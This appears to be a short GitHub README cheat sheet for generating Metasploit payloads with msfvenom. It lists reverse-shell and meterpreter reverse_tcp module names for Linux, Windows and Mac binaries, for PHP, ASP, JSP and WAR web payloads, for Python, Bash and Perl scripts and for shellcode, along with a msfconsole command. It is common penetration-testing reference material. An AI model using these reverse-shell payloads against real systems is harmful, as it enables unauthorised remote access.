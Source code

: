 
# Easy msfvenom payload creator
#  Binaries 
## need to add android payloads 

#### **Linux** 

```
linux/x86/meterpreter/reverse_tcp
```



####  **Windows** 

```
windows/meterpreter/reverse_tcp
```



####  **Mac** 

```
osx/x86/shell_reverse_tcp
```





# Web Payloads 

####  **PHP** 

```
php/meterpreter_reverse_tcp 
```



#### **ASP** 

```
windows/meterpreter/reverse_tcp

```



####  **JSP** 

```
java/jsp_shell_reverse_tcp 
```



####  **WAR** 

```
java/jsp_shell_reverse_tcp
```



# Scripting Payloads

 **Python**  

```
cmd/unix/reverse_python
```



**Bash**

```
 cmd/unix/reverse_bash
```



#### **Perl** 

```
cmd/unix/reverse_perl
```

# Shellcode



####  **Linux Based Shellcode**  

```
linux/x86/meterpreter/reverse_tcp 
```



####  **Windows Based Shellcode**
 





```
windows/meterpreter/reverse_tcp 
```




####   **Mac Based Shellcode** 

```
osx/x86/shell_reverse_tcp 
```


# run rc sript by  typing

``` 
msfconsole -r script.rc
```


#### thankyou [netsec](https://netsec.ws/?p=331)
